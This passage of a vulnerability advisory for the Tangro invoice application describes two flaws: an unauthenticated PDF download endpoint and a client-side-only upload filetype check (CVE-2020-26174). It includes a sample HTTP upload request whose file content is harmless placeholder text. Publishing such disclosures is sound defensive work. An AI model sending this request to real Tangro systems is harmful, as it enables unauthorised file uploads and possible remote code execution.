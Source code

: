 ## Description

PDF files of invoices are served over the `/api/pdf/<documentID>` API endpoint and secured using an additional token:

`https://<Tangro Host>/api/pdf/00000000000000123456?token=<Token>`

While requiring the token prevents access to the PDF files without knowing its corresponding token, the API endpoint does not verify if the user requesting the document is logged in.

As a result, knowing the document’s ID and token it is possible to download the PDF without logging in.

## Upload Filetype Constraint Bypass

| Key | Value |
|---|---|
| Vulnerability Type | Upload Filetype Constraint Bypass |
| CVSSv3 Severity | AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H (Score 8.8) |
| CWE Reference | CWE-434 |
| CVE Reference | CVE-2020-26174 |

### Description

The Tangro application requests a list of allowed filetypes from the server and restricts uploads to the filetypes contained in this list. However, this restriction is enforced in the browser (client-side) and can easily be circumvented. This allows an attacker to upload any file as an attachment to a workitem. In a worst­case scenario, this vulnerability could lead to remote code execution.

### Proof of Concept

Request:

```
POST /api/document/attachments/upload HTTP/1.1 
Host: <Tangro Host> 
X-AUTH-TOKEN: "<Token>" 
Content-Type: multipart/form-data; 
boundary=----WebKitFormBoundarynhbkhkaxOGRUpaZa

------WebKitFormBoundarynhbkhkaxOGRUpaZa 
Content-Disposition: form-data; name="documentId"

100000000000123456 
------WebKitFormBoundarynhbkhkaxOGRUpaZa 
Content-Disposition: form-data; name="file"; filename="unsupportedfiletype.thinking" 
Content-Type: text/plain

The content of the file. 
------WebKitFormBoundarynhbkhkaxOGRUpaZa 
Content-Disposition: form-data; name="archiveObject"

/SSC/CSV 
------WebKitFormBoundarynhbkhkaxOGRUpaZa--
```
